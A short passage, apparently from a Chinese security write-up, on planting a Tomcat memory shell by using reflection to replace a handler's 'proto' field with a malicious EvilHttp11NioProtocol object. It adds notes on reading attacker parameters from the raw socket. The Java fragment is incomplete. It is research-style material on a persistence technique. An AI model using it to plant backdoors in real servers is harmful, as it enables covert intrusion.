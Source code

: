 ## 代码思路

将原来的 proto 字段替换成恶意 proto 对象（EvilHttp11NioProtocol 对象）。

```plain
Object obj = getTheHandler();
Field field = obj.getClass().getDeclaredField("proto");
makeSettable(field);
// 修改
field.set(obj, new EvilHttp11NioProtocol());
```

## 参数传入的问题

因为在这个地方，Request 对象还没有初始化，所以在这里拿到 socket 去获取到传入的参数。但是回显的问题暂时无法解决。发现在这里就可以看到传入的报文了。

[![](assets/1701606835-74a2317aeb16d6d8bf26007c73bcc063.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231101162919-c0494314-7890-1.png)
